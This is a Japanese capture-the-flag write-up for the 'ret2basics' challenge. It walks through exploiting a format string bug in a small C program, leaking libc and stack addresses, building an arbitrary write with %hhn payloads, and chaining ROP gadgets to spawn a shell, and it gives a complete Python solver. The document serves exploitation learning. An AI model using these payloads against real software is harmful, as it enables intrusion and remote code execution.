

# ret2basics



## 概要

Daily AlpacaHack B-SIDE 2026/02/13 - 2026/02/16 の問題です.

https://alpacahack.com/daily-bside/challenges/ret2basics

```c
// gcc chal.c -o chal
#include <stdio.h>

char buf[0x10];
void vuln() {
    fgets(buf,sizeof(buf),stdin);
    printf(buf);
}

int main(void) {
    while(1) {
        vuln();
    }
}

__attribute__((constructor))
void setup() {
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
}
```

ソースコードを見ればわかるように何回でも Format String Bug を起こすことが出来ます.

ただし `buf` はグローバル変数として宣言されておりスタックに無いことに注意が必要です.

## 解法

まずローカルで解析するためコンテナを起動します.
Ubuntu 20.04 以降など `kernel.apparmor_restrict_unprivileged_userns` が有効化されている場合,これを無効化する必要があるそうです.[^1][^2]
[^1]: I use arch btw
[^2]: pwn.red/jail 内で nsjail が使用される関係上必要なんですかね.未検証.

```sh
bash serv_in_local.sh
```

下準備として使用している libc を取得します.

`nc localhost 33337` でプロセスを起動した状態で `sudo gdb -p $(pidof run)` でコンテナ上のプロセスにアタッチすることが出来ます.[^3]
その状態から以下のコマンドで libc のパスを取得します.
[^3]: アタッチしたときに ``warning: `target:/proc/10000/exe': can't open to read symbols: No such file or directory.`` みたいなメッセージが出て別途 `file ./chal` としないといけなかった記憶があったのですが,気づけば大丈夫になっていますね.何故か知っている優しい方は教えてくださると嬉しいです.

```txt
gef> info files
...
        0x00007fbd34353350 - 0x00007fbd34353380 is .note.gnu.property in target:/lib/x86_64-linux-gnu/libc.so.6
...
```

このように書かれているので libc は `/lib/x86_64-linux-gnu/libc.so.6` に存在することがわかります.

ただし今回の問題は [pwn.red/jail](https://github.com/redpwn/jail) を使用しているのでプロセスが開始される前に `/srv` に chroot していることに注意が必要です.
つまり今回の問題であれば `/srv/lib/x86_64-linux-gnu/libc.so.6` を取得する必要があります.[^4]
[^4]: `/lib/libc.so.6` も存在しますが pwn.red/jail が使用している libc で,大抵バージョンが違うのでこれを使用すると不幸になります.

よって以下のコマンドで libc を docker コンテナから取得して所有者とグループを適切に設定することが出来ます.
なお `1000:1000` の部分は適宜自分の uid と gid もしくはユーザー名とグループ名に読み替えてください.

```sh
sudo docker compose cp ret2basics:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 .
sudo chown 1000:1000 libc.so.6
```

さてソースコードを見ると `fgets` で取得した文字列がそのまま `printf` に渡されているのでフォーマット文字列を使用することが出来ます.
例えば以下のような入力に対して以下のような出力が得られます.

```txt
%p %p %p %p %p
0x7f0b1c378963 0xfbad208b 0x561ff8e4f030 0x1 (nil)
```

これを使用してまずはスタックのアドレスと libc のアドレスを取得することを目指します.

`%n$p` などで n 個目の引数を使用することが出来ること,第 7 引数以降はスタックに積まれることを考えると `$rsp` より大きいアドレスにある値であれば何でも表示させることが出来ます.

例えば `*vuln+53` にブレークポイントを貼ってスタックの様子を見ると以下のようになります.

```txt
gef> telescope -n
$rsp+ 0x7ffe6549ece0|+0x0000|+000: 0x00007ffe6549ecf0  ->  0x00007ffe6549ed90  ->  0x00007ffe6549edf0  ->  ...
...
      0x7ffe6549ed98|+0x00b8|+023: 0x00007ff0e0b4d28b <__libc_start_main+0x8b>  ->  0x4d001d8cf63d8b4c  <-  retaddr[3]
...
```

`$rsp` に Saved RBP が, `$rsp+0x00b8` に `__libc_start_main+0x8b` が Saved RIP として存在しているので,これを取得することでスタックのアドレスと libc のアドレスを得ることが出来ます.
以下のようなコードでそれぞれ取得できます.

```python
# get libc address
io.sendline('%29$p')
libc.base = int(io.recvline(), 16) - libc.symbol('__libc_start_main') - 0x8b

# get stack address
io.sendline('%6$p')
saved_rip_addr = int(io.recvline(), 16) - 0x8
```

この調子でさらに好きなアドレスに書き込みをすることを目指します.

フォーマット指定子の中に `%n` というものがあり,これを使用することでこれまでに出力された文字数を書き込むことが出来ます.

しかしながら引数は `int*` のポインタであるため書き込みたいアドレスがレジスタかスタックの上になければいけません.
今回は `buf` がスタックの上にはないためアドレスを入力することでスタックに載せることが出来ません.

ここでもう一度スタックの様子を見ます.

```txt
$rsp+ 0x7ffe6549ece0|+0x0000|+000: 0x00007ffe6549ecf0  ->  0x00007ffe6549ed90  ->  0x00007ffe6549edf0  ->  ...
      0x7ffe6549ece8|+0x0008|+001: 0x0000564382cec1d8 <main+0x12>  ->  0x4855fa1e0ff3f4eb  <-  retaddr[1]
      0x7ffe6549ecf0|+0x0010|+002: 0x00007ffe6549ed90  ->  0x00007ffe6549edf0  ->  0x0000000000000000
...
```

スタックを見ると `$rsp+0x0000` に `$rsp+0x0010` のアドレスが載っており,さらに `$rsp+0x0010` は別のスタックのアドレスを指していることが分かります.
このもともと載っているアドレスを使用して任意アドレス書き込みを実現します.

具体的には,まず `$rsp+0x0000` を書き込み先のアドレスとして使用し `$rsp+0x0010` の下 1 byte を 1 ずつ変化させます.
さらに `$rsp+0x0010` の指す先の値を変化させる毎に `$rsp+0x0010` を書き込み先アドレスとして実際に書き込みたいアドレスをスタック上に作成します.
このアドレスに書き込むことで任意アドレス書き込みを実現します.

例えば `$rsp+0x0010` の中身が `0x7ffeeeeeeee0` で, `0x7ffaaaaaaaa0` の値を 0xff にしたいと考えているとします.
また `$rsp+0x0000` は 6 番目の引数, `$rsp+0x0010` は 8 番目の引数, `0x7ffeeeeeee00` は k 番目の引数です.
この k は具体的には `k = (0x7ffeeeeeee00 - $rsp) / 0x8 + 6` で計算出来ます.
このとき以下の手順で書き込みが出来ます.

1. `%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee00` にします
1. `%160c%8$hhn` によって `0x7ffeeeeeee00` は `0x??????????????a0` になります
1. `%1c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee01` にします
1. `%170c%8$hhn` によって `0x7ffeeeeeee00` は `0x????????????aaa0` になります
1. `%2c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee02` にします
1. `%170c%8$hhn` によって `0x7ffeeeeeee00` は `0x??????????aaaaa0` になります
1. `%3c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee03` にします
1. `%170c%8$hhn` によって `0x7ffeeeeeee00` は `0x????????aaaaaaa0` になります
1. `%4c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee04` にします
1. `%250c%8$hhn` によって `0x7ffeeeeeee00` は `0x??????faaaaaaaa0` になります
1. `%5c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee05` にします
1. `%127c%8$hhn` によって `0x7ffeeeeeee00` は `0x????7ffaaaaaaaa0` になります
1. `%6c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee06` にします
1. `%8$hhn` によって `0x7ffeeeeeee00` は `0x??007ffaaaaaaaa0` になります
1. `%7c%6$hhn` によって `$rsp+0x0010` を `0x7ffeeeeeee07` にします
1. `%8$hhn` によって `0x7ffeeeeeee00` は `0x00007ffaaaaaaaa0` になります
2. `%255c%k$hhn` によって `0x00007ffaaaaaaaa0` は `0xff` になります

以下のコードではアドレスが用意されるスタックのアドレスの相対位置が実行毎に変化しないように `$rsp+0x0010` に書き込む値を `saved_rip_addr % 0x100 + i`にしています.
こうすることで 39 個目の引数に書き換えたいアドレスが来るようにすることが出来ます.

但し `(saved_rip_addr + 0x8) % 0x100 + 0xa0 >= 0x100` という場合にしかこれは成立しません.[^5]
[^5]: 実装の簡略化のため毎回通る exploit にはなっていないということです.

```python
# aaw
def aaw(address, value):
    for i in range(8):
        io.sendline(f'%{saved_rip_addr % 0x100 + i}c%6$hhn')
        if address % 0x100 == 0:
            io.sendline('%8$hhn')
        else:
            io.sendline(f'%{address % 0x100}c%8$hhn')
        address //= 0x100
    if value % 0x100 == 0:
        io.sendline('%39$hhn')
    else:
        io.sendline(f'%{value % 0x100}c%39$hhn')

def aaw8(address, value):
    for addr in range(address, address + 0x8):
        aaw(addr, value % 0x100)
        value //= 0x100
```

ここまで来ればあとは ROP chain を組むだけです.

`$rdi` に `/bin/sh` を入れて `system` を呼ぶのはいいのですが, vuln 関数の Saved RIP を少しでも書き換えてしまうと vuln が無限に呼ばれるループから外れてしまいます.
さらに Saved RIP の下には書き込みに使用したスタックのアドレスが存在するのでこれを Saved RIP として解釈されると困ります.
よって vuln 関数の Saved RIP の書き換えは 1 回のみ,さらにその下の値は pop 命令などで除去される必要があります.

ここでバイナリのディスアセンブル結果を見てみます.

```asm
0000000000001189 <vuln>:
    1189:	f3 0f 1e fa          	endbr64
    118d:	55                   	push   rbp
    118e:	48 89 e5             	mov    rbp,rsp
    1191:	48 8b 05 88 2e 00 00 	mov    rax,QWORD PTR [rip+0x2e88]        # 4020 <stdin@GLIBC_2.2.5>
    1198:	48 89 c2             	mov    rdx,rax
    119b:	be 10 00 00 00       	mov    esi,0x10
    11a0:	48 8d 05 89 2e 00 00 	lea    rax,[rip+0x2e89]        # 4030 <buf>
    11a7:	48 89 c7             	mov    rdi,rax
    11aa:	e8 e1 fe ff ff       	call   1090 <fgets@plt>
    11af:	48 8d 05 7a 2e 00 00 	lea    rax,[rip+0x2e7a]        # 4030 <buf>
    11b6:	48 89 c7             	mov    rdi,rax
    11b9:	b8 00 00 00 00       	mov    eax,0x0
    11be:	e8 bd fe ff ff       	call   1080 <printf@plt>
    11c3:	90                   	nop
    11c4:	5d                   	pop    rbp
    11c5:	c3                   	ret

00000000000011c6 <main>:
    11c6:	f3 0f 1e fa          	endbr64
    11ca:	55                   	push   rbp
    11cb:	48 89 e5             	mov    rbp,rsp
    11ce:	b8 00 00 00 00       	mov    eax,0x0
    11d3:	e8 b1 ff ff ff       	call   1189 <vuln>
    11d8:	eb f4                	jmp    11ce <main+0x8>
```

vuln 関数の Saved RIP はもともと上のアセンブリで `11d8` の `jmp 11ce <main+0x8>` を指しているのですが,そのすぐ上の下 1 バイトのアドレスだけが異なる `11c4` に `pop rbp; ret` というガジェットが存在します.
Saved RIP のアドレスをこれにすることで一回の書き換えで ROP のコードを実行すると共に `$rsp+0x0010` の邪魔なデータを取り除くことが出来ます.

`movaps` 命令のアライメントの都合上 `ret` を一回挟む必要があることに注意すると以下のコードのようになります.

```python
# rop chain
aaw8(saved_rip_addr + 0x8 * 2, next(libc.gadget('pop rdi; ret')))
aaw8(saved_rip_addr + 0x8 * 3, next(libc.search('/bin/sh')))
aaw8(saved_rip_addr + 0x8 * 4, next(libc.gadget('ret')))
aaw8(saved_rip_addr + 0x8 * 5, libc.symbol('system'))
aaw(saved_rip_addr, 0xc4)
```

最終的なソルバは以下のようになりました.

```python
#!/usr/bin/env -S uv run --script
# /// script
# requires-python = ">=3.14"
# dependencies = [
#     "ptrlib>=3.1.2",
# ]
# ///
from ptrlib import * # type: ignore

io = Socket('nc localhost 33337')
bin = ELF('./chal')
libc = ELF('./libc.so.6')

# get libc address
io.sendline('%29$p')
libc.base = int(io.recvline(), 16) - libc.symbol('__libc_start_main') - 0x8b

# get stack address
io.sendline('%6$p')
saved_rip_addr = int(io.recvline(), 16) - 0x8

# check address
assert (saved_rip_addr + 0x8) % 0x100 + 0xa0 >= 0x100

# aaw
def aaw(address, value):
    for i in range(8):
        io.sendline(f'%{saved_rip_addr % 0x100 + i}c%6$hhn')
        if address % 0x100 == 0:
            io.sendline('%8$hhn')
        else:
            io.sendline(f'%{address % 0x100}c%8$hhn')
        address //= 0x100
    if value % 0x100 == 0:
        io.sendline('%39$hhn')
    else:
        io.sendline(f'%{value % 0x100}c%39$hhn')

def aaw8(address, value):
    for addr in range(address, address + 0x8):
        aaw(addr, value % 0x100)
        value //= 0x100

# rop chain
aaw8(saved_rip_addr + 0x8 * 2, next(libc.gadget('pop rdi; ret')))
aaw8(saved_rip_addr + 0x8 * 3, next(libc.search('/bin/sh')))
aaw8(saved_rip_addr + 0x8 * 4, next(libc.gadget('ret')))
aaw8(saved_rip_addr + 0x8 * 5, libc.symbol('system'))
aaw(saved_rip_addr, 0xc4)

io.interactive()
```

これを実行することでフラグを取得することが出来ます.

```
Alpaca{s1mple_15_7h3_b3st_2bf3bbb8}
```
